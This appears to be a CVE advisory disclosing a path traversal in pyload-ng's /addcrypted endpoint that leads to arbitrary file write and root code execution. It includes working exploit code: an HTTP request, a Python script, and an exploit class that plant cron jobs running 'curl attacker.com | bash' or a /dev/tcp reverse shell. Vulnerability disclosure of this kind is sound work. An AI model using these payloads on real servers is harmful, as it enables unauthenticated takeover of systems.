 **🛡️ CVE Advisory Submission**

## Summary
**Path Traversal in pyLoad-ng CNL Blueprint via `package` parameter allows Arbitrary File Write leading to Remote Code Execution (RCE)**
The `addcrypted` endpoint in `pyload-ng` suffers from an unsafe path construction vulnerability, allowing unauthenticated attackers to write arbitrary files outside the designated storage directory. This can be abused to overwrite critical system files, including cron jobs and systemd services, leading to privilege escalation and remote code execution as root.


## Details

* **Project**: [pyload-ng on PyPI](https://pypi.org/project/pyload-ng/)
* **Affected Endpoint**: `POST /addcrypted`
* **Vulnerable Parameter**: `package`
* **File Affected**: `src/pyload/webui/app/blueprints/cnl_blueprint.py`
* **Issue**: No path normalization or containment check on `package` value used in file path join.

#### Vulnerable Code

```python
package = request.form["package"]
dl_path = self.config.get("general", "storage_folder")
dlc_path = os.path.join(dl_path, package, f"{package}.dlc")
with open(dlc_path, mode="wb") as fp:
    fp.write(request.form["crypted"].encode())
```

---
## Proof via BurpSuite HTTP Request

```http
POST /addcrypted HTTP/1.1
Host: target.com:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

package=../../../../etc/cron.d/payload&crypted=KioqICogKiAqKiByb290IGN1cmwgLXMgaHR0cDovL2F0dGFja2VyLmNvbS9yLnNoIHwgYmFzaA==
```

Decoded payload:

```bash
* * * * * root curl -s http://attacker.com/r.sh | bash
```


## Reproduction Steps

1. **Setup vulnerable environment**

```bash
git clone https://github.com/pyload/pyload
cd pyload && git checkout 06ea871
pip install -r requirements.txt
python -m pyload.web --port 8000
```

2. **Send crafted POST**

```python
import requests, base64

payload = "* * * * * root curl http://attacker.com/rev.sh | bash"
b64 = base64.b64encode(payload.encode()).decode()

requests.post("http://localhost:8000/addcrypted", data={
    "package": "../../../../etc/cron.d/exploit",
    "crypted": b64
})
```

3. **Verify**

```bash
ls /etc/cron.d/
tail -f /var/log/cron.log
```


### Impact
The discovered vulnerability in `pyload-ng` presents a severe security flaw that allows unauthenticated, remote attackers to write arbitrary files to any location on the server’s filesystem, bypassing intended directory boundaries. This occurs due to improper validation of the `package` parameter in the `/addcrypted` HTTP endpoint, which is directly concatenated into a filesystem path using Python's `os.path.join()` without applying any sanitization or normalization.
An attacker can:

* Overwrite files in `/etc/cron.d`, `.bashrc`, `~/.ssh/authorized_keys`, or Windows startup folders
* Achieve **RCE as root** via cron job or systemd service injection
* Escape containers by targeting host-mounted paths like `/proc` or `/var/run/docker.sock`
* Hijack or backdoor the application via config poisoning or download cache tampering

###  Vulnerable Exploit 

```python3
class pyLoadExploit:
    def __init__(self, url):
        self.url = f"{url}/addcrypted"

    def deploy(self, target_path, payload):
        import os, base64
        traversal = "../" * 10 + target_path.lstrip("/")
        data = {
            "package": traversal,
            "crypted": base64.b64encode(payload.encode()).decode()
        }
        return requests.post(self.url, data=data)

# Deploy reverse shell
exploit = pyLoadExploit("http://localhost:8000")
exploit.deploy("/etc/cron.d/pwned", "* * * * * root bash -i >& /dev/tcp/attacker.com/4444 0>&1")
```

